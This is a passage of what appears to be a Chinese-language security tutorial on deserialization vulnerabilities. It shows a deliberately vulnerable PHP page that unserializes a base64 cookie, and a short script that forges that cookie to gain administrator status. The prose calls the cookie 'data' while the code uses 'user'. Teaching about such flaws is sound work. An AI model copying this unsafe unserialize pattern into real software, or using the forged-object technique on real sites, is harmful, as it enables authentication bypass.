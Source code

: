 总结一下在各语言中反序列化过程目前可能带来的危害：

1. 执行逻辑控制（例如变量修改、登陆绕过）
2. 代码执行
3. 命令执行
4. 拒绝服务
5. ...

这些安全隐患在大多语言的序列化过程出现后就存在了。成功的利用过程大都需要一定的条件和环境，不是每种语言都能像 Python 那样能给直接执行任意命令或者代码，如同一个栈溢出的利用需要考虑各种堆栈防护机制的问题一样。

一旦通过某种方法达到了反序列化漏洞可利用的环境和条件，能够进行利用的点就非常多了。

下面是一段代码是 PHP 代码中将序列化数据以 Cookie 形式存储的实例（user.php）：

{% highlight php %}
<?php
class User {
    public $username = '';
    private $is_admin = false;
    function __construct($username) { $this->username = $username; }
    function isAdmin() { return $this->is_admin; }
}

function initUser() {
    $user = new User('Guest');
    $data = base64_encode(serialize($user));
    setCookie('user', $data, time()+3600);
     echo '<script>location.href="./user.php"</script>';
}

if(isset($_COOKIE['user'])) {
    $user = unserialize(base64_decode($_COOKIE['user']));
    if($user) {
        if($user->isAdmin()) { echo 'Welcome Come Back, Admninistrator.'; }
        else { echo "Hello, $user->username."; }
    } else {
        initUser();
    }
} else { initUser(); }
{% endhighlight %}

![]({{ site.url }}/public/img/article/2015-11-25-untrusted-deserialization-exploit-with-java/2.png)

这段代码将用户信息以 `base64_encode(serialize($user))` 的形式存储于客户端的 `$_COOKIE['data']` 里，对序列化敏感的都知道可以自己构造序列化内容然后传递给服务端，使其改变代码逻辑。使用下面这段代码生成 `$is_admin = true` 的用户信息：

{% highlight php %}
<?php
class User {
    public $username = 'Guest';
    private $is_admin = true;
}

echo base64_encode(serialize(new User()));
{% endhighlight %}
